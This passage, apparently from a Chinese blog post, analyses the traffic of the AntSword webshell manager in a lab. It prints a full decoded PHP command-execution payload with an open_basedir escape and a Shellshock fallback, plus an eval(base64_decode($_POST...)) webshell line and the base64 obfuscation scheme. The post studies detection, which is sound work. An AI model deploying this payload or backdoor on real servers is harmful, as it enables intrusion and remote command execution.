



# AntSword中国蚁剑


## 概述

AntSword中国蚁剑是一款webshell管理工具，提供了多种连接webshell的方式，以及针对防火墙过滤敏感报文的流量编码或加密的解决方案。一般来说，AntSword用来连接PHP一句话木马，即俗称的小马。蚁剑的使用方法很简单，这里主要谈蚁剑的流量特征。


## 环境

启动一台web服务器，模拟被攻击服务器，假设其存在文件上传漏洞并被注入webshell。

服务器：192.168.171.130

攻击机：192.168.171.1

攻击机使用AntSword连接提前上传的木马，然后在其终端中输入`ifconfig`命令：



此时，在wireshark中抓包，抓取其通信过程：

```bash
// wireshark过滤特定IP：
ip.addr == 192.168.171.130
```



追踪其主要的http流：



获得了一大串编码后的数据。观察其编码格式，得知是url编码和base64编码。通过解码url和base64得到代码：

```php
@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.c781c4";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return @base64_encode($out);};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "7c11b"."d3b4f9";echo @asenc($output);echo "640c3"."c055b";}ob_start();try{$p=base64_decode(substr($_POST["m5230aae760808"],2));$s=base64_decode(substr($_POST["gb3861a0e3b5a5"],2));$envstr=@base64_decode(substr($_POST["x2b1862bc70d6e"],2));$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";if(substr($d,0,1)=="/"){@putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");}else{@putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");}if(!empty($envstr)){$envarr=explode("|||asline|||", $envstr);foreach($envarr as $v) {if (!empty($v)) {@putenv(str_replace("|||askey|||", "=", $v));}}}$r="{$p} {$c}";function fe($f){$d=explode(",",@ini_get("disable_functions"));if(empty($d)){$d=array();}else{$d=array_map('trim',array_map('strtolower',$d));}return(function_exists($f)&&is_callable($f)&&!in_array($f,$d));};function runshellshock($d, $c) {if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {if (strstr(readlink("/bin/sh"), "bash") != FALSE) {$tmp = tempnam(sys_get_temp_dir(), 'as');putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");if (fe('error_log')) {error_log("a", 1);} else {mail("a@127.0.0.1", "", "", "-bv");}} else {return False;}$output = @file_get_contents($tmp);@unlink($tmp);if ($output != "") {print($output);return True;}}return False;};function runcmd($c){$ret=0;$d=dirname($_SERVER["SCRIPT_FILENAME"]);if(fe('system')){@system($c,$ret);}elseif(fe('passthru')){@passthru($c,$ret);}elseif(fe('shell_exec')){print(@shell_exec($c));}elseif(fe('exec')){@exec($c,$o,$ret);print(join("
",$o));}elseif(fe('popen')){$fp=@popen($c,'r');while(!@feof($fp)){print(@fgets($fp,2048));}@pclose($fp);}elseif(fe('proc_open')){$p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);while(!@feof($io[1])){print(@fgets($io[1],2048));}while(!@feof($io[2])){print(@fgets($io[2],2048));}@fclose($io[1]);@fclose($io[2]);@proc_close($p);}elseif(fe('antsystem')){@antsystem($c);}elseif(runshellshock($d, $c)) {return $ret;}elseif(substr($d,0,1)!="/" && @class_exists("COM")){$w=new COM('WScript.shell');$e=$w->exec($c);$so=$e->StdOut();$ret.=$so->ReadAll();$se=$e->StdErr();$ret.=$se->ReadAll();print($ret);}else{$ret = 127;}return $ret;};$ret=@runcmd($r." 2>&1");print ($ret!=0)?"ret={$ret}":"";;}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();
```

这是一段蚁剑用于实现交互式shell的代码，可以根据其`@ini_set("display_errors", "0");`代码，判断其为蚁剑流量。

仔细观察密文的后面一部分：

```php
gb3861a0e3b5a5=LXY2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkIjtpZmNvbmZpZztlY2hvIDFjYTI5OTk7cHdkO2VjaG8gNzExYzlmN2E5NQ==&m5230aae760808=fvL2Jpbi9zaA==&shell=@eval(@base64_decode($_POST['e0cd856462676e']));&x2b1862bc70d6e=x
```

有一个`base64_decode()`函数以及`eval()`函数，一个是用于base64解码的，而`eval()`函数则是能将其参数作为php代码执行，如果其参数是有意义的php代码的话。

观察代码的这一部分：

```php
try{$p=base64_decode(substr($_POST["m5230aae760808"],2));$s=base64_decode(substr($_POST["gb3861a0e3b5a5"],2));$envstr=@base64_decode(substr($_POST["x2b1862bc70d6e"],2));
```

这里的三个很像乱码的字符串其实是密文后面的三个参数名，注意看`$_POST`中的变量。其中，我们输入的命令`ifconfig`主要在`gb3861a0e3b5a5`中，其密文为：

```php
gb3861a0e3b5a5=LXY2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkIjtpZmNvbmZpZztlY2hvIDFjYTI5OTk7cHdkO2VjaG8gNzExYzlmN2E5NQ==
```

这是一个经过混淆了的base64编码的字符串。这里就要讲到蚁剑的流量机密技术了。

蚁剑的流量加密技术很简单粗暴，就是在已经编好的base64编码的字符串前面加上混淆字符。这个混淆字符可以自定义个数，默认为两个。以这个密文为例，那么没有被混淆的base64编码其实为：

```php
Y2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkIjtpZmNvbmZpZztlY2hvIDFjYTI5OTk7cHdkO2VjaG8gNzExYzlmN2E5NQ==
```

删除了前面的`L` `X`两个字符。

解密后的代码为：

```shell
cd "/var/www/html/upload";ifconfig;echo 1ca2999;pwd;echo 711c9f7a95
```

可以看到这是一个系统命令，我们输入的`ifconfig`命令就在其中。

比起蚁剑上传到服务器的流量，服务器下发到蚁剑的流量就简单很多了，因为是明文的，我们可以找到其

